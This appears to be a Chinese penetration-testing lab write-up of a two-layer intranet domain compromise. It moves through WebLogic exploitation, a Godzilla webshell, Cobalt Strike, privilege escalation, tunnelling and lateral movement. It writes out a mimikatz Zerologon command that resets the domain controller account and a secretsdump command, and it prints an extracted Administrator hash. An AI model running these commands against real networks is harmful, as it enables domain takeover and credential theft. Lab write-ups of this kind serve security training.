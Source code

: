 # 两层内网域渗透

### 使用fscan进行探测

![image-20250520110033005](./assets/image-20250520110033005.png)

- 不要想着上来就`MS17-010`永恒之蓝,先试试`7001`weblogic

*****

### weblogic-getshell

<img src="./assets/image-20250520110413101.png" alt="image-20250520110413101" style="zoom: 50%;" />

- 尝试`Godzilla`连接webshell

![image-20250520110524654](./assets/image-20250520110524654.png)

- 查看权限,权限应该是普通用户权限

![image-20250520110619421](./assets/image-20250520110619421.png)

*****

### 上线CS

![image-20250520110917612](./assets/image-20250520110917612.png)

- 尝试提权到`System`权限

![image-20250520111000234](./assets/image-20250520111000234.png)

- 成功提到`System`权限

![image-20250520111415486](./assets/image-20250520111415486.png)

*****

### 探测存活

- 探测`10`网段地址

![image-20250520111610231](./assets/image-20250520111610231.png)

- 发现存在两个`域用户`

![image-20250520111735967](./assets/image-20250520111735967.png)

*****

### 搭建隧道

<img src="./assets/image-20250520111952611.png" alt="image-20250520111952611" style="zoom:33%;" />

- 修改`host`文件

<img src="./assets/image-20250520112056813.png" alt="image-20250520112056813" style="zoom: 50%;" />

*****

### 配置代理规则

![image-20250520112344256](./assets/image-20250520112344256.png)

- 建立连接即可,不一定通`Google`

<img src="./assets/image-20250520112431734.png" alt="image-20250520112431734" style="zoom: 50%;" />

*****

### 开始攻击

```cmd
mimikatz.exe "lsadump::zerologon /target:dc.de1ay.com /account:dc$ /exploit" exit
```

![image-20250520125411092](./assets/image-20250520125411092.png)

- 这里时间有点久,静待~

![image-20250520131128488](./assets/image-20250520131128488.png)

- 成功将账户密码重置为空

*****

### 提取域控数据库密码hash

```cmd
python secretsdump.py dc$@10.10.10.10 -just-dc -no-pass
```

![image-20250520134613711](./assets/image-20250520134613711.png)

```cmd
Administrator:500:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::
```

*****

### 设置监听器

<img src="./assets/image-20250520135029038.png" alt="image-20250520135029038" style="zoom: 50%;" />

*****

### 横向移动

10.10.10.10

![image-20250520135152593](./assets/image-20250520135152593.png)

![image-20250520141858542](./assets/image-20250520141858542.png)

- 继续尝试`10.10.10.201`,一种横向移动的方式不行多尝试几种

<img src="./assets/image-20250520154211082.png" alt="image-20250520154211082" style="zoom: 50%;" />

- 执行命令

![image-20250520154645139](./assets/image-20250520154645139.png)

*****

### 最终完整的拓扑图

<img src="./assets/image-20250520154732047.png" alt="image-20250520154732047" style="zoom:50%;" />